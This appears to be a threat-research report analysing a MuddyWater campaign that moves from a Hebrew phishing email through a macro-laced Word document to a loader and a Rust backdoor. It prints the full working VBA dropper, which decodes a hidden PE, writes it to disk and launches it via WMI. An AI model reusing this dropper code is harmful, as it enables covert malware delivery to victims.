# MuddyWater: Iran’s MOIS-Linked APT Targeting Government & Critical Infrastructure

# Report Metadata

| Field             | Example                                                                                                                  |
| ----------------- | ------------------------------------------------------------------------------------------------------------------------ |
| Report Title      | `MuddyWater Campaign-Analysis: Operation IconCat/UNG0801`                                                                |
| Report ID         | `TR-2026-002`                                                                                                            |
| Threat Actor Name | `MuddyWater (Seedworm / Mango Sandstorm / Mercury / Static Kitten / TEMP.Zagros / TA450 / Earth Vetala / Boggy Serpens)` |
| Classification    | TLP:CLEAR                                                                                                                |
| Publication Date  | 23 Aug 2026                                                                                                              |
| Analyst           | Jeel Nariya                                                                                                              |
| Report Type       | Campaign / Actor / Malware / Infrastructure                                                                              |
| Confidence        | High                                                                                                                     |
| Severity          | High                                                                                                                     |
| First Observed    | 16 Nov 2025                                                                                                              |
| Last Observed     | 17 Nov 2025                                                                                                              |
| Version           | v1.0                                                                                                                     |

(Note: I have renamed many function names, variable names, data types etc. So I am providing my `.i64 IDA Database file` for reference)
- File: 
	1. [Samples.zip](/uploads/MalOps_MuddyWater/Samples.zip)
	2. [stage2.exe.defused.i64](/uploads/MalOps_MuddyWater/stage2.exe.defused.i64)
	3. [stage3.exe.defused.i64](/uploads/MalOps_MuddyWater/stage3.exe.defused.i64)
# Executive Summary

**""Note: This is not typical question answer analysis but it is a comprehensive end-to-end analysis as actual threat research.""**

## Who is Muddy Water?

Muddy Water, also known as Earth **Vetala**, **MERCURY**, **Static Kitten**, **Seedworm**, **TEMP.Zagros**, **Mango Sandstorm**, and **TA450**, **is an Iranian cyber espionage group**. The group has been **active since at least 2017**.

Muddy Water commonly employs **spearphishing with malicious attachments** such as **Word documents containing macros, PDFs**, and **executables to gain initial access**, often prompting users to enable content. It leverages **PowerShell, VBScript, JavaScript, and Python for execution** and **payload delivery**, establishes **persistence through Registry Run keys, scheduled tasks, and Word templates, and conducts credential access** using tools like `Mimikatz` and `LaZagne`. The group **exploits publicly known vulnerabilities**, uses `living-off-the-land techniques` with legitimate remote management tools, communicates with C2 servers over HTTP, and exfiltrates data via file-sharing services while applying **obfuscation methods such as Base64 and AES encryption to evade detection**. In recent campaigns, it has deployed custom backdoors including **BugSleep**, **Phoenix**, **UDPGangster**, and **RustyWater**.

Muddy Water primarily targets **government organizations, telecommunications, defense, local government, oil and natural gas, and critical infrastructure sectors**. Its operations span the MENA region, including **Israel, Saudi Arabia, UAE, Iraq, Turkey, Egypt, and others**, with additional activity observed in **Asia, Europe, and North America**. The group is assessed to be a subordinate element within **Iran's Ministry of Intelligence and Security (MOIS),** conducting cyber espionage in support of Iranian government objectives.

# Key Findings


- A single Hebrew-language phishing email, posing as a corporate HR/compliance notice, delivered a weaponized `Webinar.doc` with a password-protected VBA project.
- The macro drops a hex-encoded PE hidden inside a form field, writes it to disk as `PhotoAcq.log`, and launches it with WMI (`Win32_Process.Create`) instead of a normal `Shell()` call — a simple but effective way to dodge basic command-line monitoring.
- Stage2 is a C++ loader that hides every Windows API it needs behind a custom string-decryption routine (rolling ADD cipher, different key length per string) instead of using a normal import table. This alone defeats most static-signature and import-table based detection.
- Stage2's only real job is **process hollowing**: it starts a new process suspended, blanks out its memory, writes in a second payload, and resumes it — so the final backdoor never touches disk as its own standalone file.
- Stage3 is a Rust-compiled backdoor (RUSTRIC family) that checks for 28+ AV/EDR products before doing anything else, fingerprints the host (`whoami`, `hostname`, `nslookup`, proxy settings), and only then beacons out over HTTP to `stratioai[.]org`.
- Configuration, credentials, and headers used to talk to the C2 are AES-GCM/CTR encrypted inside the binary; a long hex blob observed in the HTTP `Expires` header is a strong candidate for outbound data smuggling.
- Persistence is a straightforward Registry Run key, dropped only after the C2 explicitly instructs the implant to do so (HTTP 202 response in the reconstructed logic).
- TTPs (Hebrew-language lure targeting Israel, dynamic API resolution, process hollowing, WMI execution, Rust-based follow-on implant) are consistent with previously reported MuddyWater/Seedworm and RustyWater/UNG0801 activity, supporting the campaign attribution.

# Threat Overview

This report documents a three-stage intrusion chain: a phishing email with a macro-laced Word document (Stage0/Stage1), a custom C++ loader that performs process hollowing (Stage2), and a Rust-compiled backdoor with AV/EDR-aware C2 logic (Stage3). Each stage exists purely to get the next one running with as little visibility to defenders as possible, the macro hides its payload in a form field instead of the document body, the loader hides its API calls behind a home-grown cipher, and the final backdoor won't call home until it's checked what security tools are watching it. Taken together, the chain reflects a moderately resourced actor investing specifically in **evading detection**, not in exploit sophistication, there's no 0-day here, just careful tradecraft layered at every step.
# Threat Actor Profile


(Credit: GROUP-IB)


**Name / aliases:** MuddyWater (also tracked as Earth Vetala, MERCURY, Static Kitten, Seedworm, TEMP.Zagros, Mango Sandstorm, TA450, Boggy Serpens).

**Sponsor:** Assessed as a subordinate element operating in support of Iran's Ministry of Intelligence and Security (MOIS).

**Active since:** At least 2017.

**Typical tradecraft:**
- Initial access almost always via spearphishing (Office documents with macros, PDFs, or direct executables), relying on the victim to "Enable Content."
- Scripting-heavy execution: PowerShell, VBScript, JavaScript, Python.
- Persistence through Registry Run keys, scheduled tasks, or malicious Word templates.
- Credential theft using public tools like Mimikatz and LaZagne.
- Heavy use of "living-off-the-land" — legitimate remote-management and admin tools repurposed for malicious ends — alongside custom malware.
- C2 over plain HTTP, exfiltration through legitimate file-sharing services, and light obfuscation (Base64, AES) to slow analysis rather than defeat it outright.

**Tooling evolution relevant to this sample:** Recent MuddyWater activity has shifted toward custom-built backdoors (BugSleep, Phoenix, UDPGangster) and, most relevant here, a move to **Rust** for newer implants (RustyWater/RUSTRIC), which this report's Stage3 binary matches both in language and in general design (AV enumeration module, persistence module, HTTP-based C2 over `hyper`/`tokio`).

**Primary targets:** Government, telecommunications, defense, local government, oil & gas, and other critical-infrastructure sectors, concentrated in the MENA region (Israel, Saudi Arabia, UAE, Iraq, Turkey, Egypt) with secondary activity in Asia, Europe, and North America.
# Targeting & Victimology

The lure itself is the strongest targeting signal in this sample: the phishing email and its **"New Company Guidelines and Regulations"** subject line are written in **Hebrew**, the official language of Israel, and use a routine corporate-compliance pretext, the kind of email an employee is unlikely to question. That, combined with the sender domain and metadata, is consistent with the operation being aimed at Israeli organizations.

The broader campaign this sample belongs to (UNG0801 / Operation IconCat) has previously been publicly reported as targeting Israeli organizations using AV-icon-spoofing tradecraft, consistent with Stage3 in this report presenting itself with a SentinelOne icon. Combined with MuddyWater's historical sector focus (government, telecom, defense, energy, critical infrastructure), the most likely victim profile is an employee at an Israeli government, defense, or critical-infrastructure organization who would plausibly receive an HR/compliance-themed email in Hebrew.

No confirmed victim identity or count is available from this analysis alone, this section reflects inferred targeting based on lure language and known campaign context, not confirmed victimology.
# Campaign Overview And Attack Chain



- **Campaign name:** Operation IconCat / UNG0801 (RUSTRIC/RustyWater tooling), assessed with high confidence as MuddyWater/Seedworm activity.
- **Observed window:** 16–17 November 2025 (email sent 17 Nov 2025 08:13 UTC; document last modified 16 Nov 2025).
- **Delivery:** Single email from `4700 <4700@l-m.co.il>`, carrying both a `Webinar.doc` and a `Webinar.zip` containing the same document — likely a resilience measure in case one attachment type is stripped by a mail gateway.
- **Infection chain:**
  1. Victim opens `Webinar.doc` and enables macros.
  2. Macro decodes an embedded PE from a hidden form field, drops it as `PhotoAcq.log`, and launches it via WMI.
  3. `PhotoAcq.log` (Stage2, C++) resolves its Windows APIs at runtime via a custom string cipher, then process-hollows a suspended process to run Stage3.
  4. Stage3 (Rust, RUSTRIC family) fingerprints the host and installed security products, then beacons to `stratioai[.]org` over HTTP for tasking, and installs Registry Run-key persistence only once instructed by the C2.
- **Outcome observed in this analysis:** Full static reconstruction of Stage1→Stage3 behavior; C2 domain and IP identified via dynamic analysis (FakeNet); no confirmed successful compromise of a real victim environment (sample obtained for analysis, not from live incident response).

# Technical Analysis

## Stage0 - Phishing Triage
### Scenario

It started with a single email. A crafted lure, a weaponized attachment, and a click, that's all it took. Behind the innocent-looking document hides a VBA macro that silently drops a custom RAT onto the victim's machine. Your job is to dissect every layer: analyze the phishing email headers, reverse the malicious document, and tear apart the RAT binary to uncover its C2 infrastructure, command set, and anti-analysis tricks.

```
NOTE: The email belongs to the UNG0801 / Operation IconCat campaign and uses the RUSTRIC/RustyWater tooling subsequently associated with MuddyWater/Seedworm. Current reporting supports a MuddyWater attribution, although the original campaign attribution was less certain.
```

Now it provided the sample of this email in the zip, and by extracting zip with `infected` this password, I got one `1.msg` file,

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ file 1.msg
1.msg: CDFV2 Microsoft Outlook Message
```

It is CDFV2 Outlook Message = an `.msg` email stored as a Microsoft OLE/Compound File, **headers, body, attachments, metadata, recipients, embedded objects**, etc.
### Email Analysis

Now we can convert this to readable format using tool such as, `msgconvert`,

```bash
sudo apt install libemail-outlook-message-perl
```

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ msgconvert 1.msg
Value for 'Subject' header with wide characters at /usr/share/perl5/Email/Outlook/Message.pm line 320.

┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ ls
1.eml  1.msg
```

But there is some problem with this, which is that we will **loose some metadata/fingerprints of mail server** so we can't use this,
After some research i found that we can make out own script convert this so I used the `Claude LLM` to create this script,

```python
#!/usr/bin/env python3
"""
Convert Outlook .msg files to .eml with full transport / forensic headers preserved.

Standard MSG exports often drop Exchange headers such as:
  X-MS-Exchange-Organization-OriginalClientIPAddress

This script reads the stored internet header block from the MSG OLE container,
merges it with the MIME body rebuilt from attachments, and writes RFC 5322 EML.
"""

from __future__ import annotations

import argparse
import sys
from email import policy
from email.parser import HeaderParser
from pathlib import Path
from typing import Iterable, Optional

try:
    import olefile
except ImportError as exc:  # pragma: no cover
    raise SystemExit("Missing dependency: pip install olefile") from exc

try:
    from extract_msg import Message
except ImportError as exc:  # pragma: no cover
    raise SystemExit("Missing dependency: pip install extract-msg") from exc


# OLE streams that may contain the full internet header block.
# 64F00102 = transport MIME snapshot (best source for Exchange forensic headers)
# 007D001F = PR_TRANSPORT_MESSAGE_HEADERS (UTF-16-LE)
# 007D001E = PR_TRANSPORT_MESSAGE_HEADERS (ANSI)
HEADER_STREAMS = (
    "__substg1.0_64F00102",
    "__substg1.0_007D001F",
    "__substg1.0_007D001E",
)

SKIP_HEADER_NAMES = frozenset({"content-type", "mime-version"})


def decode_header_stream(name: str, data: bytes) -> str:
    if name.endswith("001F"):
        return data.decode("utf-16-le", errors="replace")
    if name.endswith("001E"):
        return data.decode("latin-1", errors="replace")
    return data.decode("utf-8", errors="replace")


def read_raw_header_block(msg_path: Path) -> Optional[str]:
    """Return the raw header section stored inside the MSG file, if present."""
    with olefile.OleFileIO(str(msg_path)) as ole:
        for stream in HEADER_STREAMS:
            if not ole.exists(stream):
                continue
            text = decode_header_stream(stream, ole.openstream(stream).read()).strip()
            if text:
                return text
    return None


def split_header_body(raw: str) -> str:
    """Extract only the RFC 5322 header section from a stored header/MIME block."""
    for separator in ("\r\n\r\n", "\n\n"):
        header_block, _, _ = raw.partition(separator)
        if header_block.strip():
            return header_block
    return raw


def filter_transport_headers(header_block: str) -> str:
    """
    Drop MIME envelope fields that will be rebuilt from the body.

    Line-based parsing preserves original header encoding (e.g. RFC 2047 Subject).
    """
    lines = header_block.splitlines()
    kept: list[str] = []
    skipping = False

    for line in lines:
        if line.startswith((" ", "\t")):
            if not skipping:
                kept.append(line)
            continue

        if ":" not in line:
            kept.append(line)
            skipping = False
            continue

        name = line.split(":", 1)[0].strip().lower()
        if name in SKIP_HEADER_NAMES:
            skipping = True
            continue

        skipping = False
        kept.append(line)

    return "\r\n".join(kept)


def extract_transport_headers(msg_path: Path) -> str:
    raw = read_raw_header_block(msg_path)
    if raw:
        return filter_transport_headers(split_header_body(raw))

    # Fallback: partial headers from extract_msg (may miss forensic Exchange fields).
    msg = Message(str(msg_path))
    try:
        header_text = msg.headerText or ""
        if header_text.startswith("Microsoft Mail Internet Headers Version 2.0"):
            header_text = header_text[43:].lstrip()
        if header_text.strip():
            return filter_transport_headers(split_header_body(header_text))

        synthesized = []
        for key, value in msg.header.items():
            if key.lower() not in SKIP_HEADER_NAMES:
                synthesized.append(f"{key}: {value}")
        return "\r\n".join(synthesized)
    finally:
        msg.close()


def split_mime_bytes(raw: bytes) -> tuple[bytes, bytes]:
    if b"\r\n\r\n" in raw:
        return raw.split(b"\r\n\r\n", 1)
    return raw.split(b"\n\n", 1)


def pick_mime_envelope_headers(mime_header_bytes: bytes) -> str:
    """Keep only Content-Type and MIME-Version from the generated MIME body."""
    header_text = mime_header_bytes.decode("utf-8", errors="replace")
    parsed = HeaderParser(policy=policy.default).parsestr(header_text + "\r\n")
    keep: list[str] = []
    for name in ("MIME-Version", "Content-Type"):
        if name in parsed:
            keep.append(f"{name}: {parsed[name]}")
    return "\r\n".join(keep)


def build_eml_bytes(msg_path: Path) -> bytes:
    transport_headers = extract_transport_headers(msg_path)

    msg = Message(str(msg_path))
    try:
        mime_message = msg.asEmailMessage()
        mime_bytes = mime_message.as_bytes(policy=policy.SMTP)
    finally:
        msg.close()

    mime_header_bytes, mime_body_bytes = split_mime_bytes(mime_bytes)
    envelope_headers = pick_mime_envelope_headers(mime_header_bytes)

    parts = [transport_headers]
    if envelope_headers:
        parts.append(envelope_headers)
    header_section = "\r\n".join(part for part in parts if part)
    return header_section.encode("utf-8") + b"\r\n\r\n" + mime_body_bytes


def default_output_path(input_path: Path) -> Path:
    return input_path.with_suffix(".eml")


def convert_file(input_path: Path, output_path: Optional[Path] = None, force: bool = False) -> Path:
    input_path = input_path.resolve()
    if input_path.suffix.lower() != ".msg":
        raise ValueError(f"Not an .msg file: {input_path}")

    output_path = (output_path or default_output_path(input_path)).resolve()
    if output_path.exists() and not force:
        raise FileExistsError(f"Output already exists (use --force): {output_path}")

    output_path.parent.mkdir(parents=True, exist_ok=True)
    output_path.write_bytes(build_eml_bytes(input_path))
    return output_path


def iter_msg_files(paths: Iterable[Path], recursive: bool) -> list[Path]:
    files: list[Path] = []
    for path in paths:
        path = path.resolve()
        if path.is_file() and path.suffix.lower() == ".msg":
            files.append(path)
        elif path.is_dir():
            pattern = "**/*.msg" if recursive else "*.msg"
            files.extend(sorted(path.glob(pattern)))
    return files


def parse_args(argv: Optional[list[str]] = None) -> argparse.Namespace:
    parser = argparse.ArgumentParser(
        description="Convert Outlook .msg files to .eml with full transport headers preserved.",
    )
    parser.add_argument(
        "inputs",
        nargs="+",
        type=Path,
        help="Input .msg file(s) and/or directories containing .msg files",
    )
    parser.add_argument(
        "-o",
        "--output",
        type=Path,
        help="Output .eml path (only valid for a single input file)",
    )
    parser.add_argument(
        "-r",
        "--recursive",
        action="store_true",
        help="Recursively search directories for .msg files",
    )
    parser.add_argument(
        "--force",
        action="store_true",
        help="Overwrite existing .eml files",
    )
    parser.add_argument(
        "-q",
        "--quiet",
        action="store_true",
        help="Suppress non-error output",
    )
    return parser.parse_args(argv)


def main(argv: Optional[list[str]] = None) -> int:
    args = parse_args(argv)
    msg_files = iter_msg_files(args.inputs, args.recursive)

    if not msg_files:
        print("No .msg files found.", file=sys.stderr)
        return 1

    if args.output and len(msg_files) != 1:
        print("--output requires exactly one input .msg file.", file=sys.stderr)
        return 1

    errors = 0
    for msg_file in msg_files:
        try:
            out = convert_file(
                msg_file,
                output_path=args.output,
                force=args.force,
            )
            if not args.quiet:
                print(f"Converted: {msg_file} -> {out}")
        except Exception as exc:
            errors += 1
            print(f"ERROR: {msg_file}: {exc}", file=sys.stderr)

    return 1 if errors else 0


if __name__ == "__main__":
    raise SystemExit(main())

```

So now we can convert msg file to proper eml file,

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ python msg_to_eml.py -o 1.eml 1.msg
Converted: 1.msg -> 1.eml

┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ ls
1.eml  1.msg  msg_to_eml.py
```

This is what this mail looks like,



Now if you are a into geopolitics then you will definitely know that which language is this and why an Iranian APT is using this language rather then any other,
It is a **hebrew** language and it is a **Northwest Semitic language** and the official language of **Israel**.

If you convert it to english then it means this,



```yml
Subject: New Company Guidelines and Regulations

Body: Please read the new company guidelines and regulations in the attached file. Thank you.

Sincerely,
```

This is a `Business/Corporate impersonation or pretexting` which means **business-context social engineering used to increase the likelihood of opening a malicious attachment**.
And **Social Engineering Theme:** `Authority and compliance`  the email impersonates routine corporate communication and encourages the recipient to open an attached document under the pretext of reviewing new company regulations.

#### Email Header Analysis

```yml
From: 4700 <4700@l-m.co.il>
Subject: =?iso-8859-8-i?B?5PDn6eX6IOX69/Dl+iDn4/nl+iD57CDk5+H45A==?=
Thread-Topic: =?iso-8859-8-i?B?5PDn6eX6IOX69/Dl+iDn4/nl+iD57CDk5+H45A==?=
Thread-Index: AQHcV5nce2Fx9AkGl0KpNtSnYZ8CUw==
Date: Mon, 17 Nov 2025 08:13:13 +0000
Message-ID: <01dcd54c97f746af9e728e46db182837@l-m.co.il>
Content-Language: en-US
X-MS-Has-Attach: yes
X-MS-Exchange-Organization-SCL: -1
X-MS-TNEF-Correlator:
X-MS-Exchange-Organization-RecordReviewCfmType: 0
x-ms-exchange-organization-originalserveripaddress: 192.168.0.16
x-ms-exchange-organization-originalclientipaddress: 91.196.221.145
x-ms-exchange-organization-submissionquotaskipped: False
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary="===============0435454478462110208=="
```

So Email was received at  `Date: Mon, 17 Nov 2025 08:13:13` from `4700 <4700@l-m.co.il>`,

#### Email Attachments

- So, There are total 2 files which are present in this email as attachments,
	1. `Webinar.doc` - `6f079c1e2655ed391fb8f0b6bfafa126acf905732b5554f38a9d32d0b9ca407d`
	2. `Webinar.zip` - `77ceeb88a1fe4fb03af1acc589e02aeb156e3b22b110124ce1b25c940b0d9bbe`
- And, this zip has same doc file available in email. 

## Stage1 - Document Macros Analysis

This is the metadata of `Webinar.doc` file,

```yml
Webinar.doc: Composite Document File V2 Document
Little Endian
Os: Windows
Version: 10.0
Code page: 1252
Author: Administrator
Template: Normal.dotm
Last Saved By: jojo
Revision Number: 295
Name of Creating Application: Microsoft Office Word
Total Editing Time: 07:05:00
Last Printed: Mon Jun  3 17:48:00 2024
Create Time/Date: Mon Jun  3 17:26:00 2024
Last Saved Time/Date: Sun Nov 16 23:22:00 2025
Number of Pages: 1
Number of Words: 0
Number of Characters: 4
Security: 0
```


Now first we need to check whether this doc has anything malicious or not, so we can use [OLETools](http://decalage.info/python/oletools) for that,



Now this doc has `VBA Macro enabled` and it is typical malware execution technique to evade the detection, 
It works as dropper for next stage so let's dissect it,

We can use `oledump.py` with its `VBAProject` Plugin,
https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py
https://github.com/DidierStevens/DidierStevensSuite/blob/master/plugin_vbaproject.py

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$  python /opt/oledump.py -p /opt/plugin_vbaproject.py Webinar.doc
  1:       114 '\x01CompObj'
  2:       280 '\x05DocumentSummaryInformation'
  3:       440 '\x05SummaryInformation'
  4:      9866 '1Table'
  5:      4096 'Data'
  6:       620 'Macros/PROJECT'
               Plugin: VBA project plugin
                 DPB="282A84CBA1CBA1345FCCA19015C62DAF135D7259EEFEF41D3A09293E61DAE3925335A420" decodes to:
                  seed: 0x28
                  version: 0x02
                  projectkey: 0xac
                  ignore: 0
                  VBA project is password protected
                   JtR hash: vbapassword:$dynamic_24$102e80e167376ea8bb95bbdcdb6579398137fceb$HEX$5be9bff9
                   Hashcat hash (-m 110 --hex-salt): 102e80e167376ea8bb95bbdcdb6579398137fceb:5be9bff9
                 CMG="949638D6586E5C6E5C6B616B61" decodes to:
                  seed: 0x94
                  version: 0x02
                  projectkey: 0xac
                  ignore: 2
                  ProjectProtectionState: 0x00000005
                   fUserProtected: True
                   fHostProtected: False
                   fVBEProtected:  True
                 GC="BCBE10FE309331933193" decodes to:
                  seed: 0xbc
                  version: 0x02
                  projectkey: 0xac
                  ignore: 2
                  ProjectVisibilityState: 0x00 Not visible
  7:        71 'Macros/PROJECTwm'
  8:        97 'Macros/UserForm1/\x01CompObj'
  9:       292 'Macros/UserForm1/\x03VBFrame'
 10:       147 'Macros/UserForm1/f'
 11:   3698744 'Macros/UserForm1/o'
 12: M    9060 'Macros/VBA/ThisDocument'
 13: M    1628 'Macros/VBA/UserForm1'
 14:      5330 'Macros/VBA/_VBA_PROJECT'
 15:      4426 'Macros/VBA/__SRP_0'
 16:       418 'Macros/VBA/__SRP_1'
 17:      4180 'Macros/VBA/__SRP_2'
 18:       408 'Macros/VBA/__SRP_3'
 19:       798 'Macros/VBA/__SRP_4'
 20:       156 'Macros/VBA/__SRP_5'
 21:       818 'Macros/VBA/dir'
 22:       289 'MsoDataStore/2ÖIBÒÝGKZECLFÜÓÄIÃÑÂÛA==/Item'
 23:       341 'MsoDataStore/2ÖIBÒÝGKZECLFÜÓÄIÃÑÂÛA==/Properties'
 24:       116 'ObjectPool/_1824811729/\x01CompObj'
 25:        20 'ObjectPool/_1824811729/\x03OCXNAME'
 26:         6 'ObjectPool/_1824811729/\x03ObjInfo'
 27:       452 'ObjectPool/_1824811729/\x03PRINT'
 28:        52 'ObjectPool/_1824811729/contents'
 29:     53019 'WordDocument'
```

So according to this output, It seems that `ThisDocument` and `UserForm1` has malicious code so we can carve those streams,

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ olevba Webinar.doc > dump.vba
```

So after some cleanup that vba looks like this,
- There are total 2 streams and one stream has main payload in hex,
	1. `Macros/VBA/ThisDocument`
	2. `Macros/VBA/UserForm1`
	3.  `Macros/VBA/UserForm1/o`

### Macros/VBA/ThisDocument

```vb
Private Sub Document_Open()
    
On Error GoTo AAAA
    SmartToggle
    Dim pth As String
    
    WriteHexToFile
    Dim fff As String
    love_me_
AAAA:
    If Cos(70 * 3.14119265358979 / 180) = 0 Then
        MsgBox "Hi :), have a nice time :)" & filePath
    End If

End Sub
```

- `Private Sub Document_Open()`
	- **Purpose:** This is the **auto-execution trigger** (the entry point) of the malware. Word automatically runs any code inside this specific function the moment the user clicks "Enable Content" or "Enable Macros".
	- **What it does:**
	    1. Sets up an error handler (`On Error GoTo AAAA`) to prevent the macro from crashing visibly if something goes wrong.
	    2. Calls `SmartToggle` (to manipulate the document visuals).
	    3. Calls `WriteHexToFile` (to build the malware on the disk).
	    4. Calls `love_me_` (to execute the malware).
	    5. Includes a junk-code block (`If Cos(... = 0`) at the end as an anti-analysis evasion tactic.

```vb
Sub love_me_()
    Dim wmiService As Object
    Dim process As Object
    Dim pePath As String
    Dim result As Integer
    
    pePath = Environ("USERPROFILE") & "\Downloads\PhotoAcq.log"
    
    Set wmiService = GetObject("winmgmts:\\.\root\cimv2")
    Set process = wmiService.Get("Win32_Process")
    
    result = process.Create(pePath, Null, Null, processId)
    
    If result <> 0 Then
        MsgBox "Failed to execute PE file. Error: " & result, vbCritical
    End If
End Sub
```

- `Sub love_me_()`
	- **Purpose:** The **execution** stage. This function runs the newly created malware file on the victim's computer.
	- **What it does:**
	    1. Points to the file path where the malware was just saved (`[USERPROFILE]\Downloads\PhotoAcq.log`).
	    2. Initializes **WMI** (Windows Management Instrumentation) by calling `winmgmts:\\.\root\cimv2`.
	    3. Uses WMI's `Win32_Process.Create` method to silently launch the `PhotoAcq.log` file as an executable program.
	    4. WMI is often used by attackers to execute payloads because it can sometimes bypass basic antivirus monitoring that watches for standard Windows execution commands (like `Shell()` or `cmd.exe`).

```vb
Sub WriteHexToFile()
    Dim hexString As String
    Dim byteData() As Byte
    Dim i As Long
    Dim fileNum As Integer
    Dim filePath As String

    hexString = UserForm1.TextBox1.Text

    hexString = Replace(hexString, " ", "")
    hexString = Replace(hexString, vbCrLf, "")
    hexString = Replace(hexString, vbLf, "")
    hexString = Replace(hexString, vbCr, "")

    If Len(hexString) Mod 2 <> 0 Then
        MsgBox "Hex string. length must0 be even. :(", vbExclamation
        Exit Sub
    End If

    ReDim byteData(Len(hexString) \ 2 - 1)
    For i = 0 To UBound(byteData)
        byteData(i) = CByte("&H" & Mid(hexString, i * 2 + 1, 2))
    Next i
    
    userProfile = Environ("USERPROFILE")
    filePath = userProfile & "\Downloads\PhotoAcq.log"

    fileNum = FreeFile
    Open filePath For Binary Access Write As #fileNum
        Put #fileNum, , byteData
    Close #fileNum
    
    If Cos(70 * 3.14159265 / 180) = 0 Then
        MsgBox "Hi, have a nice time :)" & filePath
    End If
End Sub
```

- `Sub WriteHexToFile()`
	- **Purpose:** The **payload dropper/extractor**. This function is responsible for assembling the actual malware executable file from hidden text.
	- **What it does:**
	    1. Retrieves a massive string of hexadecimal characters hidden inside a text box in a hidden user form (`UserForm1.TextBox1.Text`). The analysis log shows this string starts with `4D5A9000` (the "MZ" header of a Windows executable).
	    2. Strips out any spaces or line breaks (`Replace` functions).
	    3. Converts the hex string back into raw binary byte data (`CByte("&H" ...)`).
	    4. Determines the path to the current user's Downloads folder using `Environ("USERPROFILE")`.
	    5. Creates a file named `PhotoAcq.log` in that folder and writes the raw binary data into it (`Put #fileNum, , byteData`).

```vb
Sub InitializeToggle()
    If ActiveDocument.Shapes.Count < 2 Then
        MsgBox "Insert 2 floating images first!"
        Exit Sub
    End If
    CurrentFront = 1
    ActiveDocument.Shapes(1).ZOrder msoBringToFront
    MsgBox "Initialized! First image is in front."
End Sub
```

```vb
Sub SmartToggle()
    On Error GoTo ErrorHandler
    If ActiveDocument.Shapes.Count < 2 Then
        Exit Sub
    End If
    If CurrentFront = 1 Then
        ActiveDocument.Shapes(2).ZOrder msoBringToFront
        CurrentFront = 2
    Else
        ActiveDocument.Shapes(1).ZOrder msoBringToFront
        CurrentFront = 1
    End If
    Exit Sub
ErrorHandler:
    If Cos(70 * 3.14119265358979 / 180) = 0 Then
        MsgBox "Hi :), have a nice time :)" & filePath
    End If
End Sub
```

- `Sub SmartToggle()` & `Sub InitializeToggle()`
	- **Purpose:** The **decoy and lure** mechanism. These subroutines manage what the user sees on their screen to trick them into thinking the document is legitimate.
	- **What they do:** They check if the document contains at least two floating images (`ActiveDocument.Shapes`). `SmartToggle` swaps which image is displayed on top (`ZOrder msoBringToFront`).
	- **Context:** Attackers typically place a fake warning image on top (e.g., "Document protected by Office 365, click Enable Content to decrypt"). Once macros are enabled, this function pushes that fake warning to the back and brings a blurry or fake lure document to the front, making the user believe the "decryption" worked.

### Macros/VBA/UserForm1

```vb
Private Sub TextBox1_Change()

End Sub
```

- `Private Sub TextBox1_Change()`
	- **Purpose:** An empty event handler.
	- **What it does:** Nothing. It is automatically generated by Microsoft Word when the attacker creates `TextBox1` in `UserForm1` to store their massive hex string. Since they only use the textbox for storage, no code is needed here.
### Macros/VBA/UserForm1/o

- `4D5A` which is MZ header means it is a embedded Executable inside the form stream.

```
4D5A90000300000004000000FFFF0000B8..........................0000000000000
```

Now, We easily convert this large blob of hex string to executable using cyberchef,
And this becomes out `stage2.exe` (PhotoAcq.log).



## Stage2 - The CPP Loader Analysis

### Initial Static Analysis

For initial triage I used this 3 tools,
1. DIE (Command Line) , DIE GUI (https://github.com/horsicq/detect-it-easy)
2. PEStudio (https://www.winitor.com/download)
3. Floss (https://github.com/mandiant/flare-floss)
4. stringsifter by mandiant (https://github.com/mandiant/stringsifter)

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ file stage2.exe.defused
stage2.exe.defused: PE32+ executable for MS Windows 6.00 (GUI), x86-64, 7 sections

┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ diec stage2.exe.defused --verbose -u
[HEUR/About] Generic Heuristic Analysis by DosX (@DosX_dev)
[HEUR] Scanning has begun!
[HEUR] Scanning to programming language has started!
[HEUR] Scan completed.
PE64
    Operation system: Windows(Vista)[AMD64, 64-bit, GUI]
    Linker: Microsoft Linker(14.29.30148)
    Compiler: Microsoft Visual C/C++(19.29.30148)[C++]
    Language: C++
    Tool: Visual Studio(2019, v16.11)
```






- **PE64 / AMD64**
- **C/C++**
- compiled with **Visual Studio 2019 / MSVC**
- Entry point: **`0x140003B54`**
- Image base: **`0x140000000`**
- Contains **PDB debug information**
- Overall entropy: **7.23**, which is high.
- `.rdata` is marked **packed**.
- This strongly suggests compressed/encrypted/obfuscated data is stored there.
- The large packed `.rdata` is therefore a **good candidate for an embedded next-stage payload**.



It is showing file description and compile time, it also has PDB info of threat actor which could be differentiating factor for threat intelligence.

```bash     
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ strings stage2.exe.defused | docker run -i stringsifter flarestrings | docker run -i stringsifter rank_strings > strings.txt
```

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ /opt/floss stage2.exe.defused > floss.txt
INFO: floss: extracting static strings
finding decoding function features: 100%|████████████████████████| 342/342 [00:00<00:00, 1259.95 functions/s, skipped 220 library functions (64%)]
INFO: floss.stackstrings: extracting stackstrings from 115 functions
INFO: floss.results: =oaZo_Mnh^_po:
INFO: floss.results: AbpMclb]]>ikp^sn
INFO: floss.results: =oaZo_Cee`;
INFO: floss.results: Pfnmp[i=egi`
INFO: floss.results: =ikl`>b_hhjoalnio
INFO: floss.results: Lbonh_Qdk`[a
INFO: floss.results: Q^emAioObiaiaH]db_m
INFO: floss.results: =oaZo_OafjnbPam_^`
INFO: floss.results: =^^bi_q*]gf
INFO: floss.results: =oaZo_Cee`G^lidhdS
INFO: floss.results: Qoem`Jok\`mpI^hiou
INFO: floss.results: =oaZo_Aa\jgmn^nmln
INFO: floss.results: >b_hhjoaln
INFO: floss.results: Ebng`f0.'_fi
INFO: floss.results: ImagKll_^nm
INFO: floss.results: AbpFj^rh^C[k`e`;
INFO: floss.results: =ikl`B^j]g_
